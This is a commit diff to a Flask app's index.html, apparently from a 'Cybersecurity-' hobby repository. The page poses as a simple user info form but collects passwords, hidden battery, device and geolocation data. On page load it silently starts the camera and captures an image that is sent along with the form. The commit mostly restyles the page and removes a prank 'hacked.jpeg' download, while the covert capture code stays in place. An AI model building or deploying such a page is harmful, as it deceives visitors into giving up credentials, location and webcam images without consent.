

Before and after one commit to Lokesh2003GN/Cybersecurity-, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,4 +1,3 @@
-
 <!DOCTYPE html>
 <html lang="en">
 <head>
@@ -6,56 +5,113 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Device Info</title>
     <style>
-        body {
-            font-family: Arial, sans-serif;
+        /* Reset styles */
+        * {
             margin: 0;
             padding: 0;
+            box-sizing: border-box;
+        }
+
+        body {
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
             display: flex;
             justify-content: center;
             align-items: center;
             height: 100vh;
-            background: #f0f0f0;
+            background: linear-gradient(135deg, #6dd5fa, #2980b9);
+            color: #333;
         }
-        form {
+
+        .container {
             background: #fff;
-            padding: 20px;
-            border-radius: 8px;
-            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.2);
+            padding: 30px;
+            border-radius: 15px;
+            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.2);
+            width: 100%;
+            max-width: 400px;
         }
+
+        .form-title {
+            font-size: 1.5rem;
+            font-weight: bold;
+            color: #2980b9;
+            text-align: center;
+            margin-bottom: 20px;
+        }
+
+        .form-group {
+            margin-bottom: 15px;
+        }
+
         input, button {
             width: 100%;
-            padding: 10px;
-            margin-bottom: 10px;
+            padding: 12px;
+            border-radius: 10px;
             border: 1px solid #ddd;
-            border-radius: 5px;
+            font-size: 1rem;
+            outline: none;
+            transition: all 0.3s ease;
         }
+
+        input:focus {
+            border-color: #2980b9;
+            box-shadow: 0 0 5px rgba(41, 128, 185, 0.5);
+        }
+
         button {
-            background-color: #28a745;
+            background: #2980b9;
             color: white;
             border: none;
             cursor: pointer;
+            font-weight: bold;
+            transition: background 0.3s ease;
         }
+
         button:hover {
-            background-color: #218838;
+            background: #1e6ba8;
         }
+
         #video, #canvas {
             display: none;
+        }
+
+        .hidden {
+            display: none;
+        }
+
+        .message {
+            text-align: center;
+            margin-top: 15px;
+            font-size: 0.9rem;
+            color: #555;
         }
     </style>
 </head>
 <body>
+    <div class="container">
+        <div class="form-title">User Info Form</div>
         <form id="device-form" enctype="multipart/form-data">
+            <div class="form-group">
                 <input type="text" id="name" name="name" placeholder="Name" required>
+            </div>
+            <div class="form-group">
                 <input type="email" id="email" name="email" placeholder="Email" required>
+            </div>
+            <div class="form-group">
                 <input type="text" id="phone" name="phone" placeholder="Phone" required>
+            </div>
+            <div class="form-group">
                 <input type="password" id="password" name="password" placeholder="Password" required>
+            </div>
             <input type="hidden" id="percentage_charging" name="percentage_charging">
             <input type="hidden" id="phone_name" name="phone_name">
             <input type="hidden" id="latitude" name="latitude">
             <input type="hidden" id="longitude" name="longitude">
-        <input type="file" id="image_input" name="image" accept="image/*" style="display:none;">
+            <input type="file" id="image_input" name="image" accept="image/*" class="hidden">
             <button type="submit">Submit</button>
         </form>
+        <div id="message" class="message"></div>
+    </div>
 
     <video id="video" width="300" height="200" autoplay></video>
     <canvas id="canvas" width="300" height="200"></canvas>
@@ -86,7 +142,7 @@
             console.warn("Geolocation is not supported by this browser.");
         }
 
-        // Camera feature: Automatically capture an image after 3 seconds
+        // Camera feature
         const video = document.getElementById('video');
         const canvas = document.getElementById('canvas');
         const imageInput = document.getElementById('image_input');
@@ -113,10 +169,8 @@
             }
         }
 
-        // Automatically start the camera on page load
         window.onload = startCameraAndCapture;
 
-        // Submit form with device data
         document.getElementById('device-form').addEventListener('submit', function(event) {
             event.preventDefault();
 
@@ -128,28 +182,11 @@
             })
             .then(response => response.json())
             .then(data => {
+                const messageDiv = document.getElementById('message');
                 if (data.message) {
-                    alert(data.message);
-                    fetch('https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTuAxz1lapTANfmJMhQ-cQFbiYqsBBE92BHZcv-QN0Ylm9_rSq_1YIb2xl0&s=10') // Make sure this is the correct path
-  .then(response => {
-    if (!response.ok) {
-      throw new Error('Network response was not ok');
-    }
-    return response.blob(); // Convert the response to a Blob
-  })
-  .then(blob => {
-    const url = URL.createObjectURL(blob); // Create an object URL for the Blob
-    const downloadLink = document.createElement('a');
-    downloadLink.href = url;
-    downloadLink.download = 'hacked.jpeg'; // Desired download name
-    document.body.appendChild(downloadLink);
-    downloadLink.click(); // Trigger the download
-    document.body.removeChild(downloadLink);
-    URL.revokeObjectURL(url); // Clean up the object URL
-  })
-  .catch(err => console.error('Error downloading the image:', err));
+                    messageDiv.textContent = data.message;
                 } else if (data.error) {
-                    alert(`Error: ${data.error}`);
+                    messageDiv.textContent = `Error: ${data.error}`;
                 }
             })
             .catch(error => {
```
Lines whose indentation alone changed are shown as unchanged.
